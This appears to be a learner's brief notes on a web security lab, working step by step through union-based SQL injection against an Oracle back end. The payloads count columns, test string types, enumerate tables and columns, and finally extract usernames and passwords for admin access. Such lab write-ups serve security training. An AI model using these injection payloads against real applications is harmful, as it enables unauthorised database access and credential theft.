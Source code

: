 # listing on Oracle database

list query

``` sql
select * from all_tables
```

listing via column query

``` sql
select * from all_tab_column where table_name='Users'
```

end goal : listing content of database

need to find columns

```sql
' order by 1--
' order by 2--
```

two columns

String data type query

```sql
' union select 'a', 'a' from dual--
```

both column contains string

finding tables name

```sql
' union select table_name, NULL from all_tables-- 
```

got the tables

now retireving more the data of column

```sql
' union select column_name, NULL from all_tab_columns where table_name='USERS_ERVCVG
'-- 
```

got the column of user and password

``` sql
' union select USERNAME_HZHOFM
, PASSWORD_MHVDJN from USERS_ERVCVG-- 
```

got the password for admin access
